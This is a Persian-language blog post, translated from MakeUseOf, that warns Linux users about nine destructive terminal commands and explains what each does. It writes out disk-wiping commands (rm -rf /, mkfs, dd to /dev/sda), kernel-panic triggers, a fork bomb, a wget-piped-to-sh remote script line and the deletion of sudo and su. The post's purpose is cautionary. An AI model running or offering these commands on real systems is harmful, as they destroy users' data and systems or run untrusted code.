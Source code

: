 ```yaml
---
layout: post
title: 9 دستور مهلک در گنو/لینوکس که هرگز نباید اجرا کنید
permalink: /گنو-لینوکس/9-دستور-مهلک-در-گنولینوکس-که-هرگز-نباید
post_id: 411
author: milad
categories: 
- ترمینال - Bash
- دستورات خطرناک لینوکس
- دستورات مهلک لینوکس
- دستوراتی که نباید اجرا کنید
- راهنما نکات و ترفندها
- گنو/لینوکس
---
```


سیستم عامل گنو/لینوکس و توزیع‌های مبتنی بر آن می‌توانند یک شمشیر دو لبه باشند. این شمشیر اینگونه درنظر می‌گیرد که شما می‌دانید چه می‌کنید و این آزادی را به شما می‌دهد که هر چه می‌خواهید انجام دهید، از شما سوال نمی‌پرسد و این زمانی خوب است که شما دقیقا بدانید چه می کنید، اما این را امکانپذیر میکند که در کسری از ثانیه سیستم خود را از حالت پایداری خارج و حتی نابود کنید.

فرقی ندارد یک تازه کار باشید یا یک کهنه سرباز گنو/لینوکس، شما هرگز نباید یک دستور را اجرا کنید مگر اینکه بدانید دقیقا چه کاری را انجام می‌دهد. در این پست تعدادی از مرگبارترین دستورات را مرور می‌کنیم.

more

## حذف بازگشتی


قدرت و قابلیت گنو/لینوکس در حذف هر چیز بدون پرسش یک نعمت بزرگ است، خصوصا اگر با پیغام هایی همچون حذف فایل امکانپذیر نمی‌باشد آشنا باشید، به هر حال یکی از خطرناک ترین دستورات از همین ویژگی قدرت گرفته و به شکل زیر است:

rm -rf /

خط بالا دستور rm (حذف) را به همراه پارامتر r به معنی recursive (بازگشتی) که باعث می‌شود دستور تمام زیر دایرکتوری‌های شاخه مشخص شده را شامل شود و f که بدون پرسش فایل‌های Read Only را حذف می‌کند (force) اجرا شود.
درواقع دستور بالا تمام فایل‌ها و دایرکتوری‌ها در سیستم شما را پاک می‌کند.

## فرمت هارد


هرچند ترمینال بهترین دوست کاربران است اما برای کاربران تاره‌کار گنو/لینوکس گزینه قابل اعتمادی نیست، زیرا راه‌های زیادی برای از بین بردن اطلاعات به صورت تصادفی را به کاربران می‌دهد. حذف بازگشتی یکی از این راه‌ها بود. یک راه دیگر استفاده از دستوراتی مشابه دستور زیر است:

mkfs.ext4 /dev/sda

دستور فوق هارد دیسک را برای استفاده از فایل سیستم ext4 فرمت می‌کند. فرمت کردن به خودی خود یک عمل مخرب نیست اما انجام اینکار بر روی تمامی یک دیسک که شامل فایل‌ها و... میشود همه چیز را از بین برده و می‌تواند سیستم شما را در حالت غیر قابل بازگشت قرار دهد.


## بازنویسی هارد دیسک


 اگر فرمت تصادفی هارد به اندازه کافی برایتان بد نیست، این امکان وجود دارد که هارد خود را با اطلاعات خام بازنویسی کنید، حداقل فرمت کردن یک عمل است که در حالت عادی استفاده میشود، اما بازنویسی هارد به نظر گزینه خوبی نمی‌آید.

command > /dev/sda

کلمه command در خط بالا را میتوان با هر دستور دیگری جایگزین کرد. علامت
**<**
 باعث میشود خروجی دستور سمت چپ به فایل سمت راست هدایت و در آن نوشته شود که در این مثال خروجی بر روی کل هارد نوشته خواهد شد و اطلاعات کاربر ازبین خواهد رفت.


## پاک کردن هارد دیسک


در اینجا یک روش دیگر برای از بین بردن سیستم‌ و فایل‌هایتان آمده است، این دستور هارد شما را با بیت صفر پر می‌کند. درواقع هیچ چیز بر روی هاردتان باقی نخواهد ماند.

dd if=/dev/zero of=/dev/sda

**dd**
 یک دستور سطح پایین است که برای نوشتن اطلاعات بر روی درایو های فیزیکی استفاده می‌شود، 
**if**
 منبع داده را مشخص میکند که در این مثال منبع /dev/zero میباشد که یک جریان نامحدود از صفر را ارائه می‌کند. 
**of**
 مشخص کننده مقصد این صفر ها میباشد که در این مثال /dev/sda یعنی آدرس هارد دیسک می‌باشد.


## انتقال همه چیز به هیچ چیز (یک تصور اشتباه)


اگر از شنیدن دستورات و راه‌هایی که منجر به خرابی هاردتان میشود خسته شده‌اید، صبر کنید، اینجا یک مورد بسیار جالب ارائه شده است. در لینوکس یک فایل ویژه وجود دارد(
**/dev/null**
) که تمام اطلاعاتی که به سمت آن ارسال میشود را نادیده می‌گیرد. می‌توانید آن را به عنوان یک سیاه‌چاله یا کاغذ خردکن در نظر بگیرید.

mv / /dev/null

برخلاف تصور عموم، در دستور فوق 
**mv**
شاخه / (روت) را به سمت سیاه‌چاله هدایت نخواهد کرد، زیرا انتقال یک دایرکتوری به فایل امکان پذیر نمی‌باشد، در ظاهر دستور فوق خطرناک به نظر میرسد اما در حقیقت اجرای این دستور امکانپذیر نمی‌باشد.


## Kernel Panic


برخی اوقات یک خطای درونی مهلک که غیرقابل کنترل میباشد رخ می‌دهد و سیستم یک پیغام مشابه Blue Screen به نمایش میگذارد: 
[Kernel Panic](https://en.wikipedia.org/wiki/Kernel_panic).

dd if=/dev/random of=/dev/port

echo 1 > /proc/sys/kernel/panic

cat /dev/port

cat /dev/zero > /dev/mem

پیچیدگی‌های دستورات فوق اهمیتی ندارد، چیزی که اهمیت دارد این است که این دستورات باعث رخ دادن Kernel Panic‌ و مجبور کردن کاربر به راه‌اندازی مجدد سیستم می شود.


## بمب انشعابی


Bash در کنار اجرای دستورات توانایی اجرای توابع را دارد که نوشتن اسکریپت برای انجام وظایف سیستم به صورت خودکار را آسان می‌کند. متاسفانه توابع هم ریسک خود را دارند:

:(){:|:&};:

دستور مبهم بالا Fork Bomb یا بمب انشعابی نامیده می‌شود. که یک نوع ویژه از Kernel Panic محسوب می‌شود. این دستور یک تابع به نام
**:**
 تعریف می‌کند که پس از اجرا به صورت بازگشتی دو بار خودش را صدا میزند، یک بار در Foreground و یک بار در Background.

به عبارتی دیگر هر بار که تابع اجرا شود دو Child Process ایجاد می‌کند و این Child Process ها Child Process های خودشان را ایجاد می‌کنند و این دوره به صورت نامحدود ادامه پیدا می‌کند. تنها را برای خلاصی از این حالت راه‌اندازی مجدد سیستم است.


## اجرای اسکریپت از راه دور


**wget**
محتوای یک لینک را دریافت می‌کند و میتوان برای مواردی همچون دانلود فایل‌ها مورد استفاده قرار بگیرد. به هر حال در مثال زیر یک نمونه خطرناک از بکارگیری این دستور را مشاهده می‌کنیم.

wget http://یک-آدرس-غیر-قابل-اعتماد -O- | sh

ترکیب بالا محتوای آدرس داده شده را دانلود کرده و به دستور sh ارسال می‌کند و این دستور محتوای دانلود شده را در ترمینال اجرا می‌کند. اگر url به یک اسکریپت مخرب اشاره داشته باشد سرنوشت خود را به دست این دستور سپرده اید.


## غیرفعال کردن حق ریشه در اجرای دستورات


توسط دستور زیر، دو دستور مهم در لینوکس (sudo و su) حذف می‌شوند. این دو دستور به شما اجازه اجرای برنامه‌ها با دسترسی root را می‌دهند. بدون وجود این دو دستور زندگی در لینوکس سیاه و تیره خواهد بود.

rm -f /usr/bin/sudo;rm -f /bin/su

به همین دلیل است که نباید هرگز این دستور را اجرا کنید. البته عموما راه‌هایی برای بازگرداندن فایل های حذف شده وجود دارد اما بازگرداندن اطلاعات همیشه امکانپذیر و به همان راحتی که فایل ها حذف شده‌اند نمی‌باشد.

برخی از دستورات فوق نیازمند دسترسی ریشه برای اجرا می‌باشند، اما به هر حال جزو خطرناک ترین دستورات شمرده می‌شوند.

روش‌های گوناگون و مثال‌هایی دیگری مشابه دستورات فوق موجود می‌باشد. برای مثال استفاده از /dev/random به جای /dev/zero باعث می‌شود هارد به جای پر شدن با صفر با بیت های تصادفی درواقع داده بی‌ارزش  پر شود.

شما هم می‌توانید تجارب و دستورات مخربی را که ‌باید از اجرای آنها خودداری کرد را با ما و سایر دوستان در قسمت نظرات به اشتراک بگذارید.
منبع: makeuseof
ترجمه: 
[تاکس گیک](http://tuxgeek.ir)شامل ویرایش و تغییرات.

آخرین ویرایش 22/11/93